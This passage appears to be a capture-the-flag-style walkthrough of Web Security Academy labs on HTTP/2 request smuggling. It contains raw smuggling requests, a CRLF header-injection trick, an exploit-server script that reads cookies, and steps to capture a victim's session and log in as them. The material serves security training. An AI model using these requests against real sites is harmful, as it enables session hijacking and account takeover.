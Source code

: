 Make use of that, send this HTTP smuggling request:

    POST / HTTP/2
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    GET /resources
    Host: exploit-0a9e006a046b7d6a80a0201a014a00ee.exploit-server.net
    Content-Length: 10

    x=

Now at the exploit server, rename the file to `/resources/` and add this script to the body:

    alert(document.cookie)

This attack only works when our HTTP smuggling request arrive after the victim visit the home page and before the victim's browser loads the Javascript file (via the `script` tag). To automate this attack use Burp Intruder with a `Sniper attack` for `Null payloads`, set the `Maximum concurrent requests` to `1` and `Delay between requests` to `300` (make sure to disable `Update Content-Length header`).

### LAB: HTTP/2 request smuggling via CRLF injection
Notice the frontend is stripping of the TE header. To bypass this send this request:

    :scheme: https
    :method: POST
    :path: /
    :authority: 0a7b00e804a0e88b80203fff000500d8.web-security-academy.net
    cookie: session=ewyjBxPEkaeHJ0gPeGOnI0a13kg3HC1c
    cookie: _lab_analytics=9ckshoDELLJa5dbtc9rvkpBJ3eQrL8KQrvOcZuqQcMXCgnysokmFOmq03xVL0laLOhWux46aedpC8xsZNJwzvv1kPIPhtHIjWqEUIKTbYMxTcWjAEBj2EStxoo8vGzC6ZHvEdZ7JE7avHP8gcUwsnu6eaZdUVa1mxyYUGKBF0RaEIsD7LskR5E5g0UWz9n9Dt7XAHfqPnqcNwmazbG1j2e3PocNHRiOkqAoUhwR1VTTvP3DyXE5yD3i3IQxqSIB6
    content-length: 609
    content-type: application/x-www-form-urlencoded
    cache-control: max-age/r/nTransfer-Encoding: chunked

    0

    POST /post/comment HTTP/1.1
    Host: 0a7b00e804a0e88b80203fff000500d8.web-security-academy.net
    Cookie: session=ewyjBxPEkaeHJ0gPeGOnI0a13kg3HC1c; _lab_analytics=9ckshoDELLJa5dbtc9rvkpBJ3eQrL8KQrvOcZuqQcMXCgnysokmFOmq03xVL0laLOhWux46aedpC8xsZNJwzvv1kPIPhtHIjWqEUIKTbYMxTcWjAEBj2EStxoo8vGzC6ZHvEdZ7JE7avHP8gcUwsnu6eaZdUVa1mxyYUGKBF0RaEIsD7LskR5E5g0UWz9n9Dt7XAHfqPnqcNwmazbG1j2e3PocNHRiOkqAoUhwR1VTTvP3DyXE5yD3i3IQxqSIB6
    Content-Length: 940
    Content-Type: application/x-www-form-urlencoded

    csrf=Qhb8OnDvOSaDlZazktXIM5MHwhqTXKEF&postId=8&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

> To add the TE header inside the cache-control header, use Inspector $\to$ change the value using `Shift+Enter` to add the CRLF character and append the TE header.

Go to the blog page and observe the victim's cookie. Use it to login as the victim.
